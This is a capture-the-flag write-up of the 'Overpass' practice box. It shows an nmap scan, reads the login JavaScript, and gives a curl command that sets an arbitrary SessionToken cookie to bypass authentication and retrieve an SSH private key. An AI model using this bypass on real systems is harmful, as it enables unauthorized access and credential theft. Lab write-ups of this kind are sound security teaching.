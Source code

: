 I also spun up nmap to scan the machine.
```
root@4106f9d82986:/# nmap -sC -sV -T4 -v -o nmap.log $ip
...
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| 256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_ 256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
nmap only tells us that we have an ssh server and an http server, powered by golang.

Loading the admin page gives me a login screen, and on submitting a test username and password I can see that it made a call to /api/login.
After poking this a bit I rule out sqlinjection as an attack vector.

Submitting the login request didn't reload the page though, so now to read through javascript.
Page source tells me there is a /login.js file to investigate.
There is a nice little section about dealing with the login attempt:
```
async function login() {
 const usernameBox = document.querySelector("#username");
 const passwordBox = document.querySelector("#password");
 const loginStatus = document.querySelector("#loginStatus");
 loginStatus.textContent = ""
 const creds = { username: usernameBox.value, password: passwordBox.value }
 const response = await postData("/api/login", creds)
 const statusOrCookie = await response.text()
 if (statusOrCookie === "Incorrect credentials") {
 loginStatus.textContent = "Incorrect Credentials"
 passwordBox.value=""
 } else {
 Cookies.set("SessionToken",statusOrCookie)
 window.location = "/admin"
 }
}
```
Reading that, I can see that if the server returned with something other than "Incorrect Credentials", it sets a cookie and rediercts to the admin page. Hmm.. maybe it doesn't actually care what that cookie is! I try loading the admin page with a that "SessionToken" cookie set.
```
curl -L -b "SessionToken=letmein" $ip/admin/
```
Interesting - looks like the server doesn't actually care what's in that cookie, just that it exists!
This page loads up an ssh private key. I save it to a file.
